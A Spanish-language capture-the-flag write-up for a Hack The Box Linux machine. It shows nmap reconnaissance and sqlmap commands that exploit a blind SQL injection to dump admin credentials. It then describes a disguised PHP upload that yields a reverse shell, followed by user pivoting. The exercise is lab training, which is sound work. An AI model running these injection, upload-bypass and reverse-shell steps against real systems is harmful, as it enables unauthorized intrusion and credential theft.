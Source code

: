 #Easy #fuzzing #fuzzing #nmap #Linux 
### Ping
```python
ping -c 1 10.10.11.18
PING 10.10.11.18 (10.10.11.18) 56(84) bytes of data.
64 bytes from 10.10.11.18: icmp_seq=1 ttl=63 time=70.9 ms

--- 10.10.11.18 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 70.927/70.927/70.927/0.000 ms
```

### TTL 63=Linux

### nmap
```python
sudo nmap -p- --open -sC -sV --min-rate 3000 -Pn 10.10.11.18 -oN Scan
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-13 19:43 EDT
Nmap scan report for 10.10.11.18
Host is up (0.069s latency).
Not shown: 65527 closed tcp ports (reset), 6 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 a0:f8:fd:d3:04:b8:07:a0:63:dd:37:df:d7:ee:ca:78 (ECDSA)
|_  256 bd:22:f5:28:77:27:fb:65:ba:f6:fd:2f:10:c7:82:8f (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-server-header: nginx/1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://usage.htb/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 28.51 seconds
```


### Enumeración del puerto 80 (http)

![[Pasted image 20240415164823.png]]

podemos registrarnos en la pagina web pero no tenemos mucha información
![[Pasted image 20240415165024.png]]

si intentamos cambiar la contraseña podemos notar que nos da como resultado una notificación donde podemos ver nuestro correo
![[Pasted image 20240415165125.png]]

### sqlmap
después de hacer un montón de pruebas hemos descubierto que el parámetro mail es vulnerable a sqli blind por lo que vamos a comprobarla con 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump
```

![[Pasted image 20240415193303.png]]

![[Pasted image 20240415201751.png]]
###### con este ataque podemos determinar que es una blind sqli por lo cual el ataque puede tardar bastante. 

### Blind SQLI

```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch
```
![[Pasted image 20240418105600.png]]

`obtenemos el nombre de la base de datos y el nombre de las tablas`
![[Pasted image 20240418125501.png]]

### sqlmap 
una ves obtenemos la información de la base de datos vamos a realizar la solicitud apuntando al username y password 
```python
sqlmap -r request.txt --level 5 --risk 3 -p email --batch -D usage_blog -T admin_users -C username,password --dump --threads 10
```
![[Pasted image 20240418131443.png]]

![[Pasted image 20240418131505.png]]

### web
de esta manera logramos conseguir las credenciales que estaban en la base de datos vulnerando el parámetro mal para obtener acceso a la pagina web
`en el apartado de administrador podemos subir un archivo.jpg que vamos a utilizar para meter una reverse shell oculta`
![[Pasted image 20240603230506.png]]

`Burpsuite`
interceptamos y cambiamos la extensión del archivo para agregar .php de la manera que se muestra en la imagen
![[Pasted image 20240603230913.png]]

`a la derecha podemos ver que nos da un estatus 302 lo que significa que esta haciendo una redireccion. simplemente seguimos la redireccion y listo`
![[Pasted image 20240603231243.png]]

`haciendo Fuzzing podemos descubrir que existe el directorio /uploads/images/ y aqui dentro se encuentra nuestro archivo que al llamarlo nos entabla una reverse shell. para ello debemos estar a la escucha`
![[Pasted image 20240603231416.png]]

### rshell
aqui obtenemos una reverse shell como el usuario dash
![[Pasted image 20240603231542.png]]

### User Pivoting
hemos conseguido un usuario llamado xander y también un archivo oculto dentro del directorio de dash que hemos logrado leer y contiene unas credenciales
![[Pasted image 20240603232224.png]]

